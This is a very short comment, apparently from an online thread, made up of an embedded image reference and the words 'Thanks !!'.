
Thanks !!